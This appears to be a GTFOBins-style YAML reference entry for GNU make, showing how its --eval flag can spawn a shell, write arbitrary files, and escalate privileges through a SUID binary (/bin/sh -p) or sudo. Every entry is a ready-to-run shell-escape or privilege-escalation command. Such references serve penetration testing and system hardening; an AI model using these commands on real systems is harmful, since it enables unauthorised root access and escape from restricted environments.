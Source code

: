 description: All these examples only work with GNU `make` due to the lack of support of the `--eval` flag. The same can be achieved by using a proper `Makefile` or by passing the content via stdin using `-f -`.
functions:
  shell:
    - code: |
        COMMAND='/bin/sh'
        make -s --eval=$'x:\n\t-'"$COMMAND"
  file-write:
    - description: Requires a newer GNU `make` version.
      code: |
        LFILE=file_to_write
        make -s --eval="\$(file >$LFILE,DATA)" .
  suid:
    - code: |
        COMMAND='/bin/sh -p'
        ./make -s --eval=$'x:\n\t-'"$COMMAND"
  sudo:
    - code: |
        COMMAND='/bin/sh'
        sudo make -s --eval=$'x:\n\t-'"$COMMAND"
---
